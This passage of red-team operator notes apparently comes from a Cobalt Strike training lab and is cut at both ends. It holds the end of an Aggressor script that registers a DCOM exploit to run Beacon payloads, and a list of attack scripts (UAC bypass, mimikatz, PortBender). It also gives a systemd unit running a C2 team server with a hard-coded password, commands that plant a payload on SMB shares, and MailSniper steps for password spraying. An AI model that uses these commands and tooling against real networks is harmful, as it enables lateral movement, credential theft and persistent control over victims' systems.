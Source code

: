 ```php
	
	# link if p2p beacon
	beacon_link($1, $2, $3);
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```
#### Scripts
Cobalt Strike → Script Manager → Load
`C:\Tools\cobaltstrike\elevate-kit\elevate.cna`
`C:\Tools\SCMUACBypass\scmuacbypass.cna`
`C:\Tools\cobaltstrike\artifacts\pipe\artifact.cna`
`C:\Tools\cobaltstrike\resources\resources.cna`
`C:\Tools\cobaltstrike\mimikatz\mimikatz.cna`
`C:\Tools\cobaltstrike\custom\dcom.cna`
`C:\Tools\PortBender\PortBender.cna`
## Command & Control
#### Running as a Service
/etc/systemd/system/teamserver.service
```systemd
[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/home/attacker/cobaltstrike
ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 S@lcianaszkot23 c2-profiles/custom/custom.profile

[Install]
WantedBy=multi-user.target
```

`sudo systemctl daemon-reload`
`sudo systemctl enable teamserver.service`
`sudo systemctl start teamserver.service`
#### Serving Payload Internally (SMB)

Find Writeable Share
`powerpick Find-DomainShare -CheckShareAccess`
`cd \\[computer]\[share]`
`upload C:\Payloads\dns_x64.exe`- change payload if desired

Create New Share
`run mkdir C:\share`
`cd C:\share`
`upload C:\Payloads\dns_x64.exe`- change payload if desired
`powershell New-SmbShare -Name "share" -Path "C:\share" -ReadAccess "[domain]\Domain Users"`
Remove Share
`powershell Remove-SmbShare -Name "share" -Force`
## Initial Compromise
#### Password Spraying
`ipmo C:\Tools\MailSniper\MailSniper.ps1`
`Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io`
